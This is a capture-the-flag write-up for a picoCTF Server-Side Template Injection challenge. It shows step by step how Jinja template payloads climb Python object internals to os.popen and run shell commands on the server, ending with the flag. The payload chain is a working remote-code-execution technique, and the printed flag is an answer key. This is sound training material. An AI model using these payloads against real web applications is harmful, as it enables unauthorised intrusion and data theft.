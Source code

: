 Here, we are given a basic website. The challenge strongly hints that a template is being used for Server-Side Template Injection (SSTI).

A common template injection would check to see what syntax is accepted. Jinja in Python is very popular, and uses `{{}}` syntax to execute Python code. So let's attempt the following:

```
{{1 + 1}}
```

Upon execution, `2` is displayed on the page.

Great, now we get into the heart of an SSTI attack. The idea is that we want to get into the methods of an object in Python until we reach some system functionality, and then manipulate it to perform RCE.

Let's do something simple like using the object `1`. From here, we can extract its class:

```
{{1.__class__}}
```

We get:

```
<class 'int'>
```

Now, let's continue this process:

```
{{1.__class__.__base__}}
```

This gives us:

```
<class 'object'>
```

And one more time to extract subclasses:

```
{{1.__class__.__base__.__subclasses__()}}
```

Now we get a long list of subclasses. Our goal here is to get one that would eventually utilize the `sys` library. Practically speaking, searching for things like `os` is a good idea, but after some searching, `subprocess.Popen` was found. After trial and error, the index of it was found to be `356`.

`os.popen()` is a command we wish to use so we can perform system commands. However, actually getting to the `popen` Python command is a bit awkward. We actually have to navigate through the subprocess's `sys` library to get the `os` command and perform the `popen` method. It looks like this (all one line):

```
{{1.__class__.__base__.__subclasses__()[356].__init__.__globals__['sys'].modules['os'].popen() }}
```

From here, we can finally execute Linux commands. Let's do an `ls`:

```
{{1.__class__.__base__.__subclasses__()[356].__init__.__globals__['sys'].modules['os'].popen('ls').read() }}
```

We get the following result:

```
__pycache__ app.py flag requirements.txt
```

Finally, let's extract the flag:

```
{{1.__class__.__base__.__subclasses__()[356].__init__.__globals__['sys'].modules['os'].popen('cat flag').read() }}
```

Solution: **picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_ae48ad61}**
